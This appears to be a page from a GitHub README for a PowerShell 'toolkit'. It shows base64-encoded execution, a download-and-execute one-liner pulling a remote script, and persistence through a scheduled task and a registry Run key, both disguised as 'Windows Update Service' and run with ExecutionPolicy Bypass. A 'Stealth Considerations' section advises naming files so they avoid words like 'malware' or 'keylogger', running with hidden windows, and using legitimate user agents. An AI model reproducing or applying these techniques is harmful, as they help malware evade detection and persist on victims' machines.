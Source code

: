 ### **1. Encoded Command Execution**
```powershell
# Encode the script
$ScriptContent = Get-Content ".\SystemUpdate.ps1" -Raw
$EncodedScript = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($ScriptContent))

# Execute encoded script
powershell.exe -EncodedCommand $EncodedScript
```

### **2. One-Liner Execution**
```powershell
# Download and execute from URL
powershell.exe -Command "Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/yourusername/powershell-toolkit/main/SingleFile.ps1')"
```

### **3. Scheduled Task Deployment**
```powershell
# Create scheduled task for delayed execution
$Action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-ExecutionPolicy Bypass -File C:\temp\SystemUpdate.ps1"
$Trigger = New-ScheduledTaskTrigger -AtStartup -RandomDelay (New-TimeSpan -Minutes 5)
Register-ScheduledTask -TaskName "Windows Update Service" -Action $Action -Trigger $Trigger -Force
```

### **4. Registry-Based Deployment**
```powershell
# Add to registry for execution at logon
$RegistryPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
Set-ItemProperty -Path $RegistryPath -Name "WindowsUpdateService" -Value "powershell.exe -ExecutionPolicy Bypass -File C:\temp\SystemUpdate.ps1"
```

---

## 🛡️ Stealth Considerations

### **File Naming:**
- Use generic names: `SystemUpdate.ps1`, `WindowsService.ps1`
- Avoid suspicious names: `malware.ps1`, `keylogger.ps1`

### **Execution Methods:**
- Use `-WindowStyle Hidden` for silent execution
- Use `-ExecutionPolicy Bypass` to avoid policy issues
- Use `-Silent` parameter for minimal output

### **Network Communication:**
- Use HTTPS for all communications
- Implement rate limiting
- Use legitimate user agents
- Multiple fallback endpoints
